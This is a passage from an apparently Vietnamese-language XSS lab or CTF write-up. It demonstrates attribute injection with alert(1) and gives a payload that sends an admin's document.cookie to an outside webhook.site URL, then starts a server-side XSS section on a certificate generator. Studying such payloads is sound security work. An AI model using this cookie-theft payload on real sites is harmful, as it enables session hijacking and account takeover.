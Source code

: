 Khi click vào `'onclick='alert(1)` → thành công thực thi js

Payload lấy cookie admin: 

`' onclick='document.location="[https://webhook.site/1475db49-8fc1-4987-af56-03504e54ba7a?c=](https://webhook.site/1475db49-8fc1-4987-af56-03504e54ba7a?c=)"%2Bdocument.cookie`

## XSS-02: **XSS - Server Side**

Trang web với chức năng generate ra cert có chứa thông tin do người dùng nhập vào

![image.png](Images/image%205.png)

![image.png](Images/image%206.png)
